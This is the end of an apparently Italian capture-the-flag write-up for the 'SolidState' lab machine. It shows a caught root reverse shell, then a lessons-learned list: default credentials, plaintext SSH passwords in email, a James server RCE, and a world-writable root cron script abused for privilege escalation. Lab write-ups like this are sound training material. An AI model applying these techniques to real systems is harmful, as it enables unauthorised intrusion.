connect to [10.10.14.9] from (UNKNOWN) [10.10.10.51] 39194
bash: cannot set terminal process group (13552): Inappropriate ioctl for device
bash: no job control in this shell
root@solidstate:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@solidstate:~#
```

# LESSON LEARNED

Per ottenere un punto d'appoggio iniziale sulla scatola abbiamo sfruttato tre vulnerabilità.

1. Utilizzo delle credenziali predefinite. L'amministratore ha utilizzato la password predefinita fornita con l'applicazione. Poiché le credenziali predefinite sono pubblicamente disponibili e possono essere facilmente ottenute, l'utente dovrebbe invece utilizzare una password sufficientemente lunga e difficile da decifrare.

2. Le credenziali SSH sono memorizzate in chiaro in una delle e-mail dell'utente. Se è necessario che la password venga trasmessa via e-mail, l'utente dovrebbe aver cambiato la password al primo accesso.

3. Una vulnerabilità Remote Code Execution (RCE) con il server James Remote che ci ha permesso di ottenere l'accesso iniziale alla macchina. Ciò avrebbe potuto essere evitato se l'utente avesse corretto il sistema e installato la versione più recente del software.


Per aumentare i privilegi abbiamo sfruttato una vulnerabilità.

Una configurazione errata della sicurezza dei permessi dei file. C'era un'attività pianificata che eseguiva un file con privilegi di root sebbene tutti avessero accesso in scrittura a quel file. Questo ci ha permesso di modificare il contenuto del file e ottenere una reverse shell privilegiata rimandata alla nostra macchina d'attacco. Per evitare questa vulnerabilità, i permessi dei file avrebbero dovuto essere limitati solo all'accesso a livello di root.